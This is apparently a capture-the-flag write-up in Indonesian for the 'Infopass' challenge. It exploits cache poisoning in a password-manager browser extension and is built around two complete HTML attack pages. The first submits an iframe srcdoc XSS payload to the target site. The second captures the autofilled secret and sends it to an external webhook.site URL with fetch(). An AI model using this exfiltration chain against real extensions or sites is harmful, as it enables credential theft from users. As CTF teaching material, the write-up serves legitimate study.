


# Infopass

<p style="font-size: 20px;">Cache poisoning via <code>&#x3c;&#x69;&#x66;&#x72;&#x61;&#x6d;&#x65;&#x20;&#x73;&#x72;&#x63;&#x64;&#x6f;&#x63;&#x3e;&#x3c;&#x2f;&#x69;&#x66;&#x72;&#x61;&#x6d;&#x65;&#x3e;</code></p>


Inti dari permaasalahan challange ini adalah terletak pada settingan chace extension yang salah , yaitu ketika menyeting cache dengan kata kunci `path`dan mengisi dengan `sender.origin` pada `background.js`

```
cache.set(path, data); 
```

sekilas dalam pendeklarasian tersebut tampak tidak salah namun bagiamana jika `path` dengan `sender.origin` tidak sama, maka akan terjadi  `cache poisoning`.Untuk itu kita perlu beberapa langkah dengan membuat cache `path` diisi dengan `sender.origin`


Dalam langkah kali ini perlu kita asumsikan si attacker sudah menyimpan `cache sender.origin` dari `https://infopass-web.challs2.infobahnc.tf/` yang berupa flag.Lalu langkah selanjutnya kita perlu membuat 2 halaman pemicu utama katakanlah halaman x dan y. untuk halaman pertama halaman x `https://gleeful-kleicha-aec213.netlify.app/` berisi code

```html
<!doctype html>
<html>
  <body>
    <h1>Stage 1</h1>
    <script>
      // 1. Buat form yang POST ke main app (login page)
      const form = document.createElement('form');
      form.method = 'POST';
      form.action = 'https://infopass-web.challs2.infobahnc.tf/';
      form.target = '_blank';  // buka di tab baru, biar extension jalan di sana

      const usernameField = document.createElement('input');
      usernameField.name = 'username';

      // Username berisi iframe srcdoc yang akan dirender di halaman main
      usernameField.value = `<iframe srcdoc='<input name="username"><input type="password">'></iframe>`;

      form.appendChild(usernameField);

      const passwordField = document.createElement('input');
      passwordField.type = 'password';
      passwordField.name = 'password';
      passwordField.value = 'abc';
      form.appendChild(passwordField);

      document.body.appendChild(form);

      // 2. Submit form ke infopass-web (bot akan login dengan payload ini)
      form.submit();

      // 3. Setelah beberapa detik, buka Y.html (exfil stage)
      setTimeout(() => {
        window.open('https://gleaming-pastelito-22bfc1.netlify.app', '_blank');
      }, 3000);
    </script>
  </body>
</html>
```
Maksud dari halaman tersebut adalah memaksa bot admin untuk membuaka halaman regis `https://infopass-web.challs2.infobahnc.tf/` dan mengisi form dengan 
```
<iframe srcdoc='<input name="username"><input type="password">'></iframe>
```
tujuan dari payload ini adalah untuk perform dihalaman `/dasboard`. Setelah halaman `x.html` memaksa menginputkan username diatas dan paswwrod `abc` maka halaman akan mengalihkan ke `/dashboard` dan akan perform `XSS`.



Dari sini input sudah terisi dengan cache flag. namun untuk membukanya kita perlu mencopy cache flag tersebut ke chace `nullsrcdoc`. mengapa harus mencopy nya terlebih dahulu ? karena kita hanya bisa meminta bot mengisi form dengan auto input hanya jika cache `sender.url.origin` nya sama. maka yang terjadi ketika bot admin membuka halaman `/dashboard` tersebut maka 

```
const url = new URL(sender.url);      // "about:srcdoc"
const path = url.origin + url.pathname; // "nullsrcdoc"

if (cache.has(path)) { ... } // awalnya: false

const passwords = await getPasswords();
const item = passwords[sender.origin]; // ambil dari STORAGE pakai origin → FLAG
const data = ... // hasil dekripsi { login, password: FLAG }

cache.set(path, data); // cache["nullsrcdoc"] sekarang berisi FLAG
```
`( source: background.js )`

Lalu langkah selanjutnya kita tinggal mengambil cache dari `nullsrcdoc` dengan memaksa mengakses halaman `y.html` :
```html
<!doctype html>
<html>
  <body>
    <h1>Stage 2</h1>
    

    <!-- iframe srcdoc tempat extension akan autofill -->
    <iframe id="leak" srcdoc='<form>
      <input name="username">
      <input id="x" type="password">
    </form>'></iframe>

    <script>
      const HOOK = "https://webhook.site/0882ef4c-885d-4356-bccf-530ad182232c";
      let tries = 0;

      function poll() {
        const frame = document.getElementById("leak");
        const doc = frame.contentWindow.document;
        const input = doc.getElementById("x");

        if (!input) {
          // kalau sampai sini berarti DOM kita sendiri bermasalah
          fetch(HOOK + "?err=no_input");
          return;
        }

        if (!input.value && tries < 20) {
          // belum keisi -> tunggu lagi, max 20 detik
          tries++;
          return setTimeout(poll, 1000);
        }

        // kirim apa adanya, biar kelihatan di webhook
        fetch(HOOK + "?a=" + encodeURIComponent(input.value) +
                    "&tries=" + tries);
      }

      setTimeout(poll, 1000);
    </script>
  </body>
</html>

```
Arti dari kode tersebut adlaah ketika mengakses halaman `y.html` `https://gleaming-pastelito-22bfc1.netlify.app`kita sudah diberikan iframe dengan `srdoc`


lalu secara otomatis exetensions mengecek form tersebut dan otomatis mengisinya karena chace `nullsrcdoc` sudah tersedia. dan nantinya tinggal kita send ke webhook kita.

untuk melakukan langkah diatas kita perlu hosting `x.html` dan `y.html` dan mengirimkan link `x.html` ke `https://infopass-bot-web.challs2.infobahnc.tf` dan boom 😊😊.


